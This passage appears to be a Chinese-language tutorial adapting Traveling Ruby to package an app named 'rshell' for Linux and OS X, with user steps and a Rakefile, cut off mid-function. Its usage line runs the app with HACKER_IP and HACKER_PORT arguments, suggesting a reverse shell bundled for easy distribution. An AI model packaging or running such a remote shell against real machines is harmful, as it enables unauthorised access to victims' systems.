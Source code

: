 恭喜，您已经使用 Traveling Ruby 创建了软件包！

一个 x86 Linux 用户现在可以这样使用您的应用程序：

1.  用户下载了 rshell-1.0.0-linux-x86.tar.gz。

1.  用户提取此文件。

1.  用户运行您的应用程序：

```
/path-to/rshell-1.0.0-linux-x86/rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT] 
```

##### 自动化流程

在每次发布时执行上述所有步骤都很麻烦，因此您应该自动化打包过程，例如使用 Rake。以下是 Rakefile 的示例：

```
PACKAGE_NAME = "rshell"
VERSION = "1.0.0"
TRAVELING_RUBY_VERSION = "20150210-2.1.5"

desc "Package your app"
task :package => ['package:linux:x86', 'package:linux:x86_64', 'package:osx']

namespace :package do
  namespace :linux do
    desc "Package your app for Linux x86"
    task :x86 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
      create_package("linux-x86")
    end

    desc "Package your app for Linux x86_64"
    task :x86_64 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
      create_package("linux-x86_64")
    end
  end

  desc "Package your app for OS X"
  task :osx => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
    create_package("osx")
  end
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
  download_runtime("linux-x86")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
  download_runtime("linux-x86_64")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
  download_runtime("osx")
end

def create_package(target)
  package_dir = "#{PACKAGE_NAME}-#{VERSION}-#{target}"
  sh "rm -rf #{package_dir}"
  sh "mkdir -p #{package_dir}/lib/app"
  sh "cp rshell.rb #{package_dir}/lib/app/"
  sh "mkdir #{package_dir}/lib/ruby"
  sh "tar -xzf packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz -C #{package_dir}/lib/ruby"
  sh "cp packaging/wrapper.sh #{package_dir}/rshell"
```